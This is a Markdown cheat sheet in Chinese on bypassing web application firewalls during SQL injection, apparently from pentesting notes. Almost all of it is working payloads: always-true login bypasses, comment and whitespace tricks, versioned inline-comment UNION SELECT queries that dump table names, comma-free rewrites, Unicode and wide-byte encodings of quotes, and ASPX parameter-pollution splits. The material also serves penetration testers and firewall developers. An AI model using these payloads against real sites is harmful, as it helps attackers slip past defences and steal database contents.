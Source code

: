### WAF bypass
WAF is a defender for web.  
繞過手勢:  
- 萬能密鑰繞過  
  - `id=1' or 1 like 1`  
- 空白繞過  
  - `select/**/username/**/from/**/users;`  
  - `select@{反引號}id{反引號}`  
  - `union select 1,2` -> `union(select(1),2)`  
  - `%20 %09 %0a %0b %0c %0d %a0 /**/`  
  - aspx+mssql `%00`, php+mysql `/*%00*/`
- 大小寫繞過  
  - `大小寫混淆 e.g. SelecT`  
- 雙關鍵字繞過  
  - `UNIunionON`  
- 內聯注釋繞過(**實戰中這招可以繞過很多WAF，用注釋符替換空白以及作結，還可以用單個`*/`去閉合多個`/*!`**)  
  - `id=1'/*!50000union*/+/*!50000all*/+/*!50000select*/1,2,concat_ws('/',table_name),4+from+/*!50000information_schema.tables*/+/*!50000where*/+table_schema='table'%23`
- 逗號繞過  
  - `union select 1,2,3` -> `union select * from ((select 1)a join (select 2)b join (select 3)c);`  
  - limit逗號 `limit 1 offset 0`  
  - mid()逗號 `mid(version() from 1 for 1)`
- 編碼(or雙重)繞過  
  - `URL-ENCODE, HEXIDECIMAL, UNICODE`  
  - `unicode(單引號): %u0027 %u02b9 %u02bc %u02c8 %u2032 %uff07 %c0%27 %c0%a7 %e0%80%a7`  
  - `unicode(空白): %u0020 %uff00 %c0%20 %c0%a0 %e0%80%a0`  
  - `unicode(左括號): %u0028 %uff08 %c0%28 %c0%a8 %e0%80%a8`  
  - `unicode(右括號): %u0029 %uff09 %c0%29 %c0%a9 %e0%80%a9`  
  - `Char(49)` `Hex('a')` `Unhex(61)`  
  - asp+iis的server上有自動解析unicode的效果，url中的`%`字元會被忽略掉，`s%u0065lect`的unicode字串會被自動解析  
  - `IBM037`,`IBM500`,`IBM1026`,`cp875`等特殊字集，細節請看[用特殊編碼繞過waf](#bypass-requestvalidation-on-aspx)  
- 注釋  
  - `#`  行內注釋  
  - `--+` `--` `-- -`  
  - `/* ... */` `///**/`(多個自己變通)段注釋，可多行  
  - {反引號} 特定情況下可作為注釋  mysql <= 5.5  
  - `;` stacking queries 一般php+mysql不可行，但是PDO行得通  
- 命令繞過  
  - `sleep()` -> `benchmark()`  
  - `@@datadir` -> `datadir()`  
- 邏輯運算符繞過  
  - `and/or` -> `&& / |`  
- 寬字節繞過  
  - 過濾單引號： `%bf%27 %df%27 %aa%27`  
- `information_schema`被禁掉  
  - 爆庫名：`select * from users where name = helloworld();`  
    原理：`ERROR 1305 (42000): FUNCTION CODINGGROUND.helloworld does not exist`  
- aspx中HPP特性  
  - 當GET/POST/COOKIE同時提交參數`uid`，server會依GET/POST/COOKIE的順序接收並以逗號隔開  
  - 利用：`http://example.com/?uid=1 and 1=2 union/*  POST: uid=*/select.....`  
- 函數分隔符  
  - func名和後面括號之間其實可以有分隔，這導致正規表達式可以被繞過  
  - function `/**/`,`%2520`,`%250c`,`%25a0` ()  
    